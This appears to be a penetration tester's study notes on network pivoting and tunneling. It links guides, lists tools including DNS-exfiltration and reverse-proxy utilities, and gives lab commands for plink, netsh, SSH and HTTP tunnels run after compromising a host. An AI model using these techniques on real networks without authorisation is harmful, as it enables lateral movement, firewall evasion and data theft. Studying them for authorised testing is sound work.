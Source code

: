 # Pivot/Proxy/Tunnel/Redirect

## Guides and Reference

* [NetworkPivotingTechniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)
* [Abachy's Port Forwarding Guide](https://www.abatchy.com/2017/01/port-forwarding-practical-hands-on-guide)&#x20;
* [http://woshub.com/port-forwarding-in-windows/](http://woshub.com/port-forwarding-in-windows/)
* [https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)
* [https://pentest.blog/explore-hidden-networks-with-double-pivoting/](https://pentest.blog/explore-hidden-networks-with-double-pivoting/)
* [https://fumenoid.github.io/posts/port-forwarding](https://fumenoid.github.io/posts/port-forwarding)
* [https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/](https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/)
* [https://www.offensive-security.com/metasploit-unleashed/proxytunnels/](https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)
* [https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
* [https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/](https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/)
* [https://xapax.github.io/security/#random\_tips\_and\_tricks/port\_forwarding\_and\_tunneling/](https://xapax.github.io/security/#random\_tips\_and\_tricks/port\_forwarding\_and\_tunneling/)
* [https://xapax.github.io/security/#random\_tips\_and\_tricks/pivoting/](https://xapax.github.io/security/#random\_tips\_and\_tricks/pivoting/)
* [http://pwnwiki.io/#!pivoting/linux/index.md](http://pwnwiki.io/#!pivoting/linux/index.md)
* [https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022](https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022)
* _Attacking Network Protocols: Network Proxies - pg.20_

## Tools

* [PivotSuite](https://github.com/RedTeamOperations/PivotSuite) - PivotSuite is a portable, platform independent and powerful network pivoting toolkit, Which helps Red Teamers / Penetration Testers to use a compromised system to move around inside a network.
* [ProxyChains](https://github.com/haad/proxychains) - ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies.
* [Modaliska](https://github.com/drk1wi/Modlishka)  - Modlishka is a powerful and flexible HTTP reverse proxy. It implements an entirely new and interesting approach of handling browser-based HTTP traffic flow, which allows to transparently proxy multi-domain destination traffic, both TLS and non-TLS, over a single domain, without a requirement of installing any additional certificate on the client.
* [SSHuttle](https://github.com/sshuttle/sshuttle) - Where transparent proxy meets VPN meets ssh.
  * [https://sshuttle.readthedocs.io/en/stable/](https://sshuttle.readthedocs.io/en/stable/)&#x20;
* [Iodine](https://github.com/yarrick/iodine) - This is a piece of software that lets you tunnel IPv4 data through a DNS server. This can be usable in different situations where internet access is firewalled, but DNS queries are allowed.
* [Mallory](https://github.com/justmao945/mallory) - HTTP/HTTPS proxy over SSH.
* [Pivotnacci](https://github.com/blackarrowsec/pivotnacci) - Pivot into the internal network by deploying HTTP agents.
* [PacketWhisper](https://github.com/TryCatchHCF/PacketWhisper) - PacketWhisper: Stealthily exfiltrate data and defeat attribution using DNS queries and text-based steganography. Avoid the problems associated with typical DNS exfiltration methods. Transfer data between systems without the communicating devices directly connecting to each other or to a common endpoint. No need to control a DNS Name Server.
* [chisel](https://www.kali.org/tools/chisel/) - This package contains a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.
* [cryptcat](https://www.kali.org/tools/cryptcat/) - Cryptcat is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol while encrypting the data being transmitted.
* [dns2tcp](https://www.kali.org/tools/dns2tcp/) - dns2tcp is a set of tools to encapsulate a TCP session in DNS packets. This type of encapsulation generates smaller packets than IP-over-DNS, improving throughput.
* [dnschef](https://www.kali.org/tools/dnschef/) - DNSChef is a highly configurable DNS proxy for Penetration Testers and Malware Analysts.
* [iodine](https://www.kali.org/tools/iodine/) - This is a piece of software that lets you tunnel IPv4 data through a DNS server. This can be usable in different situations where internet access is firewalled, but DNS queries are allowed.
* [miredo](https://www.kali.org/tools/miredo/) - A client for the Teredo IPV6 tunneling protocol.
* [nextnet](https://www.kali.org/tools/nextnet/) - This package contains a pivot point discovery tool written in Go.
* [redsocks](https://www.kali.org/tools/redsocks/) - Redsocks is a daemon running on the local system, that will transparently tunnel any TCP connection via a remote SOCKS4, SOCKS5 or HTTP proxy server.
* [sslh](https://www.kali.org/tools/sslh/) - sslh lets one accept HTTPS, SSH, OpenVPN, tinc and XMPP connections on the same port. This makes it possible to connect to any of these servers on port 443 (e.g. from inside a corporate firewall, which almost never block port 443) while still serving HTTPS on that port.

## Commands

### **LinuxPort forwarding**&#x20;

* rinetd&#x20;
  * \# sudo apt update && sudo apt install rinetd&#x20;
  * The rinetd configuration file, /etc/rinetd.conf, lists forwarding rules that require four parameters, including bindaddress and bindport, which define the bound (“listening”) IP address and port, and connectaddress and connectport, which define the traffic’s destination address and port:&#x20;
  * \# cat /etc/rinetd.conf&#x20;
  * \# sudo service rinetd restart

### **Windows forwarding/tunneling**&#x20;

* Plink.exe&#x20;
  * \>plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4&#x20;
    * \-ssh -connect via ssh&#x20;
    * 10.11.0.4 - kali IP&#x20;
    * \-l user&#x20;
    * \-pw password&#x20;
    * R remote port forward&#x20;
  * \>cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4&#x20;
  * The first time plink connects to a host, it will attempt to cache the host key in hte registry.&#x20;
  * We need to pipe a command into the plink execution&#x20;
  * Once finished, send commands out the 127.0.0.1 and forwarded port&#x20;
    * \# sudo nmap -sS -sV 127.0.0.1 -p 1234 • NETSH&#x20;
  * After compromising a windows device and getting SYSTEM-level (to bypass UAC), we can use the netsh utility for portforwarding and pivoting.&#x20;
  * The Windows dev must have the IP Helper service running and IPV6 enabled. Both are enabled by default&#x20;
    * \> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110&#x20;
  * We can add firewall rules to allow out traffic outbound&#x20;
    * \> netsh advfirewall firewall add rule name="forward\_port\_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow Ok.

### **Linux SSH tunneling**&#x20;

* &#x20;SSH local port forwarding.&#x20;
  * \# cat /root/port\_forwarding\_and\_tunneling/ssh\_local\_port\_forwarding.sh
  * \# ssh -N -L \[bind\_address:]port:host:hostport \[username@address]&#x20;
  * \# sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128&#x20;
* SSH Remote port forwarding&#x20;
  * \# cat /root/port\_forwarding\_and\_tunneling/ssh\_remote\_port\_forwarding.sh ◇# ssh -N -R \[bind\_address:]port:host:hostport \[username@address]&#x20;
  * &#x20;ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4&#x20;
* SSH Dynamic Port forwarding&#x20;
  * \# ssh -N -D : \<username>@&#x20;
  * \# sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
* [https://github.com/DennyZhang/cheatsheet-ssh-A4](https://github.com/DennyZhang/cheatsheet-ssh-A4)
* _Operator Handbook: SSH - pg.286_

### **Proxychains**

* \#cat /etc/proxychains.conf&#x20;
* \#sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
* [How to set up ProxyChains - Stay Anonymous](pivot-proxy-tunnel-redirect.md#linux-ssh-tunneling)
* [How to set up ProxyChains - Change IP](https://youtu.be/FtFTh-KVjsA)

### **HTTP tunneling through Deep Packet Inspection**&#x20;

* Some DPI devices only allow specific protocols, like no SSH&#x20;
* HTTPTunnel&#x20;
  * \# apt-cache search httptunnel&#x20;
  * \# sudo apt install httptunnel&#x20;
  * \# hts --forward-port localhost:8888 1234 (Server-linux target) 0
* Set up server to listen on port 1234 and redirect to local 8888&#x20;
  * \# htc --forward-port 8080 10.11.0.128:1234 (Client-kali)&#x20;
* Set up client to send it to the listening server.

### **RDP Tunneling**

* _PTFM: RDP Tunneling - pg. 53_

### **NGINX for proxy**

* _PTFM: NGINX for proxy use- pg. 64_

